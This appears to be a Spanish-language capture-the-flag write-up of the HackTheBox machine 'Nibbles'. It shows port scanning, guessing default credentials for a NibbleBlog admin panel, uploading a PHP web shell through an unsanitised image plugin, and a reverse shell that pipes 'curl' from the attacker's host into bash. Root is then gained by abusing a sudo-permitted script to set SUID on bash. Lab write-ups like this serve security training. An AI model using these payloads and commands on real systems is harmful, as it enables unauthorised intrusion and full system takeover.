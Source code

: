 ```yaml
---
title: HackTheBox - Nibbles
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'File Upload', 'Abuso de Sudoers']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Nibbles/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Nibbles Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Nibbles`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Nibbles/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Nibbles/02-versions.png)

c. Al ver el código fuente de la página web inicial, veremos una directorio por el cual podremos empezar a fuzzear

![](/assets/images/HTB/Easy/Nibbles/03-leak.png)


* El sitio web está levantado con **`NibbleBlog`** y podemos ver su código fuente en **`Github`** [NibbleBlog](https://github.com/dignajar/nibbleblog). Con esto podemos evitarnos realizar fuzzing.


* El directorio **`content`** contiene el directorio **`/private`** en el cual existe un fichero **`users.xml`**

    ```xml
    <user username="admin">
    <SNIP>
    ```

d. En el repositorio vemos un fichero **`admin.php`**, que es un panel de login, pero, al no poseer la contraseña del usuario **admin**, probamos con palabras comunes

* **`admin:admin`, `admin:password`, `admin:nibbles`**

e. Una vez autenticados, iremos al apartado de **`Plugins -> My Image`**. Intentamos subir un fichero **`php`** con el contenido **`<?php system($_GET["cmd"]); ?>`**

* Como nos fijamos, no existe ningun tipo de sanitización por lo que la 'imagen' se subió normalmente, para verla nos iremos a la siguiente ruta **`http://<IP>/nibbleblog/content/private/plugins/my_image/`**.

    ![](/assets/images/HTB/Easy/Nibbles/05-file_upload.png)

* Una vez garantizada la ejecución remota de comandos, entablamos una reverse shell.

    * **URL:** **`http://<IP Nibbles>/nibbleblog/content/private/plugins/my_image/image.php?cmd=curl%20http://<tun0 IP>:<Port>|bash`**

    ![](/assets/images/HTB/Easy/Nibbles/06-reverse.png)

### Escalada de Privilegios 💹

a. Listamos privilegios de tipos sudoers, que podamos tener

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

* Podemos ejecutar como root el archivo **`monitor.sh`**, sin embargo, este no existe, por lo que, al estar en nuestro directorio personal, lo que haremos es crear los directorios y el fichero con un script que otorgue el permiso **`SUID`** a la **`bash`**

    ```bash
    nibbler@Nibbles:/home/nibbler$ tree -fas
    .
    |-- [       4096]  ./personal
    |   `-- [       4096]  ./personal/stuff
    |       `-- [         18]  ./personal/stuff/monitor.sh

    nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    chmod +s /bin/bash
    nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
    ```

b. Ahora ejecutamos el script como **root**

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler$ bash -p
bash-4.3# whoami
root
```

> Con esto hemos vulnerado la `Máquina Nibbles` 🎉
{: .prompt-tip }